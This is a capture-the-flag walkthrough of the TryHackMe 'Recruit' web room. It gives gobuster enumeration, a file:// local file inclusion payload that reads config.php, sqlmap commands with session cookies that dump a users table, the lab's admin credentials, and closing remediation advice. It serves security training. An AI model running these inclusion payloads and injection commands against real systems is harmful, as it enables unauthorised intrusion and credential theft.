







#TryHackMe: Recruit Room Walkthrough
Difficulty: Medium
Category: Web Security

A complete writeup demonstrating how to compromise the **Recruit** room on TryHackMe. This challenge showcases a multi-step attack chain, moving from directory reconnaissance to **Local File Inclusion (LFI)** for initial access, followed by **Authenticated SQL Injection (SQLi)** to achieve full administrative control. 

---

## Objectives & Methodology

The goal of this room is to extract two separate flags: the **User Flag** and the **Admin Flag**. The attack methodology follows the standard penetration testing lifecycle: 
1. **Reconnaissance:** Enumerating directories and exposed system logs.
2. **Initial Foothold:** Exploiting an unregulated backend file protocol wrapper (`file://`) to read configuration secrets. 
3. **Privilege Escalation:** Capitalizing on an input sanitisation flaw within an authenticated search feature to dump the administrative database.

---

## Step-by-Step Exploitation
##Phase 1: Directory Enumeration & Reconnaissance
The assessment behan by mapping the target web application infrastructure using **Gobuster** to uncover hidden endpoints and asset paths.

```bash 
gobuster dir -u http://<machine_IP> -w /usr/share/wordlists/dirb/common.txt
```


The scan revealed a standard login page (`index.php`) and a highly interesting `/mail/` directory. Navigating to the exposed mail log file revealed internal system communication:



Inside the logs, an operational note confirmed that the human resources username is `hr`. Crucially, the text explicitly stated that the HR password was temporarily hardcoded directly inside the application's configuration file (`config.php`) for convenience during the initial rollout.

---

### Phase 2: Exploiting Local File Inclusion (LFI)
To read `config.php` without server-side execution access, a mechanism was required to expose raw application file code. 

Inspecting the client-side source code of `index.php` pointed to a developer endpoint called `api.php`. Accessing `api.php` directly returned functional parameter documentation for the portal:

```text
You can fetch a candidate CV using the following endpoint:
/file.php?cv=<URL>
```


The `?cv=` parameter accepts file paths. By leveraging the PHP native stream protocol wrapper (`file://`), the input validation logic was bypassed to pull files from the host environment instead of an external website.

The absolute file system path payload was injected into the browser address bar:
```text
http://<machine_IP>/file.php?cv=file:/config.php
```

By viewing the raw HTML source of the returned page (`Ctrl + U`), the hardcoded PHP database configuration array became visible, exposing the cleartext password for the `hr` account. 



Logging into `index.php` with these credentials successfully opened the HR dashboard and granted the **User Flag**.

---

### Phase 3: Authenticated SQL Injection (SQLi)
The HR dashboard included a search utility to look up applicant entries. Testing the query parameter by searching for the letter `a` generated a dynamic URL tracking payload:



```text
http://<machine_ip>/dashboard.php?search=a
```


Because search parameters often query databases unsafely, this input field was targeted for verification. Since the endpoint requires a valid login, the current session cookie (`PHPSESSID`) was extracted from browser storage and supplied directly to **SQLmap** to bypass the login portal block.

#### 1. Database Enumeration
```bash
sqlmap -u "http://<machine_IP>/dashboard.php?search=a" --cookie="PHPSESSID=k1eufn7eq3914245k1lohdd2q9" --dbs
```


The target server returned confirmation of SQL injection capability and outputted six databases:
* `information_schema`
* `mysql`
* `performance_schema`
* `phpmyadmin`
* **`recruit_db`** (Target Database)
* `sys`

#### 2. Table Enumeration
Targeting the application-specific database `recruit_db` allowed for structural extraction of the schemas:
```bash
sqlmap -u "http://<machine_IP>/dashboard.php?search=a" --cookie="PHPSESSID=2o4fuaouvbr8rmav23s0fqur3v" -D recruit_db --tables
```
The query output returned a critical storage table named **`users`**.

#### 3. Data Dumping
A targeted data dump command extracted the credentials stored inside the `users` table:
```bash
sqlmap -u "http://<machine_IP>dashboard.php?search=a" --cookie="PHPSESSID=2o4fuaouvbr8rmav23s0fqur3v" -D recruit_db -T users --dump
```

The database returned the administrative authentication records cleanly:
```text
+----+----------------+----------+

| id | password       | username |
+----+----------------+----------+

| 1  | admin@001admin | admin    |
+----+----------------+----------+
```

---

## 🏁 Full Privilege Escalation
After terminating the active HR session, the recovered master administrator credentials were submitted on the standard web login form:
* **Username:** `admin`
* **Password:** `admin@001admin`

The server authenticated the administrative session and redirected to the primary supervisor terminal dashboard, fully displaying the final **Admin Flag**.

---

## 🛡️ Remediation Strategies
To secure the application against these specific attack vectors, the following defensive implementations are recommended:
1. **Disable Protocol Wrappers:** Configure PHP (`php.ini`) to turn off `allow_url_fopen` and `allow_url_include` to prevent LFI wrapper abuses. Restrict document viewer logic strictly to safe local extensions.
2. **Implement Parameterized Queries:** Rewrite database operations to handle search inputs using Prepared Statements (PDO or MySQLi) instead of concatenating variables into SQL strings.
3. **Eliminate Hardcoded Credentials:** Configuration data should be kept out of standard deployment source code. Use environment variables or secure vault storage for system credentials.

---
*Disclaimer: This walkthrough is written strictly for educational purposes and cybersecurity portfolio documentation.*


